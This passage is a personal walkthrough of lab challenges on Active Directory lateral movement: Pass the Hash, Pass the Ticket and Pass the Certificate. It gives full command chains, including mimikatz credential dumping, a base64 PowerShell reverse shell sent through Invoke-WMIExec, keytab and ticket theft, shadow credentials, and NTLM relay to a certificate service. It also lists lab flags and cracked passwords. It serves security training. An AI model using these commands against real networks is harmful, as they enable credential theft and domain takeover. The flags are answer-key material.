    

    Then we can run the command tip. 

    ```cmd
    findstr /s /i "password" C:\HR\*.* 
    ```

    Then it gave as the answer. The answer is `Str0ng_Adm1nistrat0r_P@ssword_2025!`.
    
## Windows Lateral Movement Techniques
### Pass the Hash (PtH)
#### Tools
1. Mimikatz
2. Invoke-TheHash
3. Impacket (psexec.py)
4. NetExec 
5. evil-winrm
6. xfreerdp
#### Challenges
1. Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.

    In here, i used `impacket-psexec` to solve this.

    ```bash
    impacket-psexec Administrator@10.129.204.23 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
    ```
    Then we can explore on it. The answer is `G3t_4CCE$$_V1@_PTH`.

2. Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.

    To enable Enable Restricted Admin Mode to allow PtH, we can use this command to add new registry.

    ```cmd
    c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
    ```
    The answer is `DisableRestrictedAdmin`.

3. Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?

    Because we have already disablde restricted admin, we can use xfreerdp to connect to that.

    ```bash
    xfreerdp  /v:10.129.204.23 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
    ```
3. Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?

    We can solve this by using mimikatz and use some filter to make it easy to read.

    ```powershell
    .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit | Select-String -Pattern "David" -Context 0, 5
    ```
    

    We can see the NLTM on there. The answer is `c39f2beb3d2ec06a62cb887fb391dee0`.

4. Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.

    To solve this, we can use mimikatz to open cmd with david users.

    ```powershell
    .\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:David /domain:inlanefreight /ntlm:c39f2beb3d2ec06a62cb887fb391dee0  /run:cmd.exe" exit 
    ```
    Then in the cmd, we can read the flag.

    ```bash
    type \\DC01\david\david.txt
    ```
    The answer is `D3V1d_Fl5g_is_Her3`.

5. Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt.

   To solve this, first, we need to get the NTLM of julo user. The NTLM is `64f12cddaa88057e06a81b54e73b949b`.
    ```powershell
    .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit | Select-String -Pattern "Julio" -Context 0, 5
    ```

    

    Then we use that NTLM to spawn cmd by using mimkatz again.
    ```powershell
    .\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:julio /domain:inlanefreight /ntlm:64f12cddaa88057e06a81b54e73b949b  /run:cmd.exe" exit 
    ```
    After we got the cmd, we can read the flag.
    ```bash
    type \\DC01\julio\julio.txt
    ```
    The answer is `JuL1()_SH@re_fl@g`.

6. Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.

    To solve this, first we need to setup nc listener.
    ```powershell
    .\nc.exe -lvnp 8001
    ```
    After that we generate reverse shell from [here](https://www.revshells.com/). In here, i choose, powershell#3(base64). After that we run `Invoke-WMIExec`.

    ```powershell
    Import-Module .\Invoke-TheHash.psd1
    Invoke-WMIExec -Target DC01 -Domain inlanefreight -Username julio -Hash 64f12cddaa88057e06a81b54e73b949b -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA3ADIALgAxADYALgAxAC4ANQAiACwAOAAwADAAMQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
    ```
    After getting the reverse shell, we can read the flag. The answer is `JuL1()_N3w_fl@g`.

### Pass the Ticket (PtT) from Windows
#### Tools
1. Mimikatz (To dump ticket, forge, and pass)
2. Rubeus (To dump ticket, forge, and pass)
#### Challenges
1. Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?

    We can use rubesut to solvet this. 
    ```cmd
    Rubeus.exe dump /nowrap
    ```

    It gave 3 user, david, john, and julio. So the answer is `3`.

2. Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \\DC01.inlanefreight.htb\john

    To solve this, first, we can use mimikatz to dump john encryption keys.

    ```cmd
    mimikatz # privilege::debug
    mimikatz # sekurlsa::ekeys
    ```
    

    In there, we can see rc4 of john is `c4b0e1b10c7ce2c4723b4e2407ef81a2`. Then we use rubeus to pass the ticket.

    ```cmd
    Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /rc4:c4b0e1b10c7ce2c4723b4e2407ef81a2 /ptt
    ```

    

    After we successfully pass the ticket, we can read the flag.

    ```cmd
    type \\DC01.inlanefreight.htb\john\john.txt
    ```
    The answer is `Learn1ng_M0r3_Tr1cks_with_J0hn`.

3. Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt

    Still from the previous state, we can type `powershell` now to get the powershell. Then we can flag by typing this.

    ```powershell
    Invoke-Command -ComputerName DC01 -ScriptBlock { Get-Content C:\john\john.txt }
    ```
    The answer is `P4$$_th3_Tick3T_PSR`.

### Pass the Ticket (PtT) from Linux
#### Tools
1. keytabextract.py
2. [chisel](https://github.com/jpillora/chisel)
3. linikatz.sh
#### Challenges
1. Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.

    We can solve this by using ssh with specific port. 
    ```bash
    ssh david@inlanefreight.htb@10.129.204.23 -p 2222
    ```
    The answer is `Gett1ng_Acc3$$_to_LINUX01`.

2. Which group can connect to LINUX01? 

    We can solve this by using `realm list`. This command can be used for reconnaissance about our domain.
    ```bash
    realm list
    ```
    
    Based on that, the answer is `Linux Admins`.

3. Look for a keytab file that you have read and write access. Submit the file name as a response.

    We need to find keytab files in here. Its a user secret key.

    ```bash
    find / -name *keytab* -ls 2>/dev/null
    ```
    
    
    Based on that, the answer is `carlos.keytab`.

4. Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.

    First we need to extract the keytab by using `keytabextract.py`.

    

    The NTLM hash is `a738f92b3c08b424ec2d99589a9cce60`. We can crack this by using [crackstation](https://crackstation.net/). The password plaintext is `Password5`. Then we can login using its credential.

    ```bash
    su - carlos@inlanefreight.htb
    ```
    The answer is `C@rl0s_1$_H3r3`.

5. Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory.

    To solve this, first i check the crontab. Then i cat the script mentioned in there.

    

    But using `svc_workstations.kt` keytab is wrong. Even i get the flag on there, the result is incorrect. In the .script folder, we can find another keytab. The correct keytab is `svc_workstations._all.kt`. After that we extract it using keytabextract.py.

    ```bash
    python3 /opt/keytabextract.py svc_workstations._all.kt. 
    ```
    We get `7247e8d4387e76996ff3f18a34316fdd` as NTLM. The plaintext is `Password4`. Then we can ssh and get the answer in there. The answer is `Mor3_4cce$$_m0r3_Pr1v$`.

6. Check the sudo privileges of the svc_workstations user and get access as root. Submit the flag in /root/flag.txt directory as the response.

    Based on `sudo -l` output, we can use any command as a root. The answer is `Ro0t_Pwn_K3yT4b`.

7. Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\DC01\julio.

    To solve this, first we list the /tmp folder.

    ```bash
    ls -la /tmp
    ```

    

    We can see julio credential is `krb5cc_647401106_7QipSl`. Then we copied and export it.

    ```bash
    cp /tmp/krb5cc_647401106_7QipSl .
    export KRB5CCNAME=/home/svc_workstations@inlanefreight.htb/krb5cc_647401106_7QipSl
    ```
    Then we can get the flag by using smbclient. 
    ```bash
    smbclient //dc01/julio -k -c 'get julio.txt'
    ```
    The answer is `JuL1()_SH@re_fl@g`.

8. Use the LINUX01$ Kerberos ticket to read the flag found in \\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_).

    By default, we can find machine keytab in the `/etc/krb5.keytab`. We can verify using this.

    ```bash
    klist -k -t /etc/krb5.keytab
    ```
    

    We can see it have `LINUX01$@INLANEFREIGHT.HTB`. So we can use that keytab.

    ```bash
    kinit 'LINUX01$@INLANEFREIGHT.HTB' -k -t /etc/krb5.keytab
    ```
    Then verfy using klist. If its right, then we can get the flag by using smbclient.
    ```bash
    smbclient //dc01/linux01 -k -c 'get flag.txt'
    ```
    The answer is `Us1nG_KeyTab_Like_@_PRO`.

### Pass the Certificate
#### Tools
1. [Certipy](https://github.com/ly4k/Certipy)
2. impacket-ntlmrelayx
3. [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py)
4. [pywhisker](https://github.com/ShutdownRepo/pywhisker)
5. [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/)
#### Challenges
1. What are the contents of flag.txt on jpinkman's desktop?

    In here, we can solve this by using shadow credential technique. First by using `pywhisker`, we tried to write public key to victim user.
    ```bash
    pywhisker --dc-ip 10.129.234.174 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add
    ```
    

    It generate `xzLe3rJB.pfx` and `JgcLtdWGBc75E5jCZhHX` as a password. Then we can use `gettgtpkinit.py` to do gtg.

    ```bash
    python3 gettgtpkinit.py -cert-pfx ./xzLe3rJB.pfx -pfx-pass 'JgcLtdWGBc75E5jCZhHX' -dc-ip 10.129.234.174 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache
    ```
    Then verify with klist. After it was verified, we can use evil-winrm.

    ```bash
    evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
    ```
    The answer is `3d7e3dfb56b200ef715cfc300f07f3f8`.

2. What are the contents of flag.txt on Administrator's desktop?

    To solve this, first, we modify the `/etc/hosts` with this.
    ```bash
    10.129.196.41 CA01.inlanefreight.local
    10.129.234.174 DC01.inlanefreight.local INLANEFREIGHT.LOCAL
    ```
    Then we used `ntlmrelayx` to listen for inbound connection.
    ```bash
    impacket-ntlmrelayx -t http://10.129.196.41/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
    ```
    Then we trigger it using `printerbug.py` script.
    ```bash
    python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.174 10.10.14.84
    ```
    Back to `ntlmrelayx`, if we got this then we successs.

    

    Then we used `gettgtpkinit.py` to perform pass the certificate attack.

    ```bash
    python3 gettgtpkinit.py -cert-pfx ../DC01\$.pfx -dc-ip 10.129.234.174 'inlanefreight.local/dc01$' /tmp/dc.ccache
    ```

    After that we export `KRB5CCNAME` variable.

    ```bash
    export KRB5CCNAME=/tmp/dc.ccache
    ```
    Then we can use `impacket-secretsdump` to dump the administrator hash.
    ```bash
    impacket-secretsdump -k -no-pass -dc-ip 10.129.234.174 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
    ```
    One of the output was like this `Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd02e525dd676fd8ca04e200d265f20c:::`. We can use `evil-winrm` with the NTLM of admin hash.

    ```bash
    evil-winrm -i 10.129.234.174 -u Administrator -H fd02e525dd676fd8ca04e200d265f20c
    ```
    Then we can explore to get the flag. The answer is `a1fc497a8433f5a1b4c18274019a2cdb`.